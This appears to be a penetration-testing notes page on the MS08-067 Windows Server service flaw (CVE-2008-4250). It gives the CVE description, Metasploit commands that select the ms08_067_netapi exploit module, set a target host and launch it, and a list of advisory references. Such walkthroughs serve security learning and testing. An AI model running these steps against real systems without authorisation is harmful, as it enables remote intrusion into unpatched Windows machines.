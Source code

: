 # Remote Code Execution - ms08\_067

## CVE-2008-4250

### Description

The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary code via a crafted RPC request that triggers the overflow during path canonicalization, as exploited in the wild by Gimmiv.A in October 2008, aka "Server Service Vulnerability."

## Using gunzip and Hydra

#### Gunzip

![](/assets/import.png)

#### Hydra

![](/assets/import2.png)

## Using Metasploit

![](/assets/Search_ms08_067.png)

```
msf > use exploit/windows/smb/ms08_067_netapi
```



```
msf > show options
```



```
msf > set RHOST <Target IP Address>
```

![](/assets/ms08_exploit.png)



```
msf > exploit
```







## 

## 

## 

## References

BUGTRAQ:20081026 Windows RPC MS08-067 FAQ document released

* [URL:http://www.securityfocus.com/archive/1/archive/1/497808/100/0/threaded](http://www.securityfocus.com/archive/1/archive/1/497808/100/0/threaded)
* BUGTRAQ:20081027 Windows RPC MS08-067 FAQ document updated
* [URL:http://www.securityfocus.com/archive/1/archive/1/497816/100/0/threaded](http://www.securityfocus.com/archive/1/archive/1/497816/100/0/threaded)
* EXPLOIT-DB:6824
* [URL:https://www.exploit-db.com/exploits/6824](https://www.exploit-db.com/exploits/6824)
* EXPLOIT-DB:6841
* [URL:https://www.exploit-db.com/exploits/6841](https://www.exploit-db.com/exploits/6841)
* EXPLOIT-DB:7104
* [URL:https://www.exploit-db.com/exploits/7104](https://www.exploit-db.com/exploits/7104)
* EXPLOIT-DB:7132
* [URL:https://www.exploit-db.com/exploits/7132](https://www.exploit-db.com/exploits/7132)
* [MISC:http://blogs.securiteam.com/index.php/archives/1150](http://blogs.securiteam.com/index.php/archives/1150)
* HP:HPSBST02386
* [URL:http://marc.info/?l=bugtraq&m=122703006921213&w=2](http://marc.info/?l=bugtraq&m=122703006921213&w=2)
* HP:SSRT080164
* [URL:http://marc.info/?l=bugtraq&m=122703006921213&w=2](http://marc.info/?l=bugtraq&m=122703006921213&w=2)
* MS:MS08-067
* [URL:http://www.microsoft.com/technet/security/Bulletin/ms08-067.mspx](http://www.microsoft.com/technet/security/Bulletin/ms08-067.mspx)
* CERT:TA08-297A
* [URL:http://www.us-cert.gov/cas/techalerts/TA08-297A.html](http://www.us-cert.gov/cas/techalerts/TA08-297A.html)
* CERT:TA09-088A
* [URL:http://www.us-cert.gov/cas/techalerts/TA09-088A.html](http://www.us-cert.gov/cas/techalerts/TA09-088A.html)
* CERT-VN:VU\#827267
* [URL:http://www.kb.cert.org/vuls/id/827267](http://www.kb.cert.org/vuls/id/827267)
* BID:31874
* [URL:http://www.securityfocus.com/bid/31874](http://www.securityfocus.com/bid/31874)
* OVAL:oval:org.mitre.oval:def:6093
* [URL:https://oval.cisecurity.org/repository/search/definition/oval%3Aorg.mitre.oval%3Adef%3A6093](https://oval.cisecurity.org/repository/search/definition/oval%3Aorg.mitre.oval%3Adef%3A6093)
* SECTRACK:1021091
* [URL:http://www.securitytracker.com/id?1021091](http://www.securitytracker.com/id?1021091)
* VUPEN:ADV-2008-2902
* [URL:http://www.vupen.com/english/advisories/2008/2902](http://www.vupen.com/english/advisories/2008/2902)
* SECUNIA:32326
* [URL:http://secunia.com/advisories/32326](http://secunia.com/advisories/32326)
* XF:win-server-rpc-code-execution\(46040\)
* [URL:https://exchange.xforce.ibmcloud.com/vulnerabilities/46040](https://exchange.xforce.ibmcloud.com/vulnerabilities/46040)



